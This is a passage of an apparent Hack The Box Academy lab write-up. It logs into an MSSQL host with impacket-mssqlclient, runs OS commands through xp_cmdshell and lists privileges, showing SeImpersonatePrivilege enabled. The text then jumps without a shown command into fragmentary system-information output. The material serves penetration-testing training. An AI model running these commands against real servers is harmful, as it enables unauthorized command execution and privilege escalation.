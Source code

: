 7. Submit the contents of the flag.txt file on the Administrator Desktop on the SQL01 host.[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/active-directory-enumeration-and-attacks/labs-skills-assessment#7.-submit-the-contents-of-the-flag.txt-file-on-the-administrator-desktop-on-the-sql01-host.)

┌─[htb-student@skills-par01]─[~]

└──╼ $impacket-mssqlclient INLANEFREIGHT/netdb@172.16.7.60

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:

[*] Encryption required, switching to TLS

[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master

[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english

[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192

[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.

[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.

[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)

[!] Press help for extra shell commands

​

SQL> xp_cmdshell whoami

nt service\mssql$sqlexpress

​

SQL> xp_cmdshell hostname

SQL01

​

SQL> xp_cmdshell whoami /priv

PRIVILEGES INFORMATION

----------------------

Privilege Name Description State

============================= ========================================= ========

SeAssignPrimaryTokenPrivilege Replace a process level token Disabled

SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled

SeChangeNotifyPrivilege Bypass traverse checking Enabled

SeImpersonatePrivilege Impersonate a client after authentication Enabled

SeCreateGlobalPrivilege Create global objects Enabled

SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0
